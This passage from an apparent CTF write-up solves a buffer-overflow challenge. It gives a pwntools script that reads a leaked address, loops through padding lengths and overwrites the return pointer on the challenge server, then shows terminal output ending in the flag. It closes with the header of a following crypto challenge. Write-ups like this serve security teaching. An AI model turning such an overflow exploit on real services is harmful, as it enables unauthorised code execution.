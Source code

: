 In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

{% ccb lang:py gutter1:1-12 caption:'warmup-to-the-dark-side.py' url:'gist.github.com/jktrn/dd861b378b859a0588b48c71ad9fbf45' url_text:'github gist link' %}
from pwn import *

for i in range(32,128):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
{% endccb %}

Let's run this script on the server to see if we can get the flag:
{% ccb terminal:true html:true highlight:18 %}
...
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 37 for address 0x55f788f1120c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 38 for address 0x5631d523620c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 39 for address 0x55980d2d520c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 40 for address 0x55f0008b520c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (95B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Jedi Mind tricks dont work on me &gt;&gt;&gt;
    shctf&#123;I_will_remov3_th3s3_restraints_and_leave_the_c3ll&#125;</span>
{% endccb %}

---

{% challenge %}
title: Rahool's Challenge
level: h2
authors: excaligator
genre: crypto
solvers: enscribe
points: 331
description: |
    `nc 0.cloud.chals.io 10294`
size: 120%
{% endchallenge %}
